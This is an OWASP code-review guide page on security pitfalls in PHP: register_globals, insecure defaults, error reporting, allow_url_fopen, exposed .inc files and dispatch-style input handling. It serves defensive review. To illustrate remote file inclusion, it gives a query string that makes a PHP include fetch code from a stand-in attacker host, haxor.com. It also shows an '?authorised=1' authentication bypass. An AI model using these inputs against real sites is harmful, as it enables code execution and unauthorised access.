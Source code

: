 __TOC__

### Global Variables

One does not need to explicitly create "global variables." This is done
via the php.ini file by setting the "register_globals" function on.
register_globals has been disabled by default since PHP 4.1.0

Include directives in PHP can be vulnerable if register_globals is
enabled.

<?PHP

 include "$dir/script/dostuff.php";

 ?>

With register_globals enabled the $dir variable can be passed in via
the query string:

`?dir=`<http://www.haxor.com/gimmeeverything.php>

This would result in the $dir being set to:

<?PHP

 include "http://www.haxor.com/gimmeeverything.php";

 ?>

Appending global variables to the URL may be a way to circumvent
authentication:

<?PHP
 if(authenticated_user())
 {
  $authorised=true;
 }

 if($authorised)
 {
  give_family_jewels()
 }

 ?>

If this page was requested with register_globals enabled, using the
following parameter ?authorised=1 in the query string the athentication
function assumes the user is authorised to proceed. Without
register_globals enabled, the variable $authorised would not be
affected by the $authorised=1 parameter.

### Initialization

When reviewing PHP code, make sure you can see the initialization value
is in a "secure default" state.

For example $authorised = false;

### Error handling

If possible check if one has turned off error reporting via php.ini and
if "error_reporting" off. It is prudent to examine if **E_ALL** is
enabled, this ensures all errors and warnings are reported.
**display_errors** should be set to **off** in production

### File Manipulation

**allow_url_fopen** is enabled by default in PHP.ini This allows URLs
to be treated like local files. URLs with malicious scripting may be
included and treated like a local file.

#### Files in the document root

At times one must have include files in the document root, and these
\*.inc files are not to be accessed directly. If this is the case, and
during the review you find such files in the root, then examine
httpd.conf. For example:

`<Files"\.inc">`
`   Order allow, deny`
`   deny from all`
</Files>

### HTTP request Handling

The Dispatch method is used as a "funnel" wherein all requests are
passed through it. One does not access other PHP files directly, but
rather via the dispatch.php. This could be akin to a global input
validation class wherein all traffic passes.

<http://www.example.com/dispatch.php?fid=dostuff>

Relating to security, it is leading practice to implement validation at
the top of this file. All other modules required can be **include** or
**require** and in a different directory.

**Including a method**

If a dispatch.php method is not being used, look for includes at the top
of each php file. The **include** method may set a state such that the
request can proceed.

It may be a good idea to check out PHP.ini and look for the
**auto_prepend_file** directive. This may reference an automatic
include for all files.

### Positive input validation

**Input validation**: strip_tags(): Removes any HTML from a String
nl2br(): Converts new line characters to HTML break "br"
htmlspecialchars():Convert special characters to HTML entities

[Category:OWASP Code Review
Project](Category:OWASP_Code_Review_Project "wikilink")
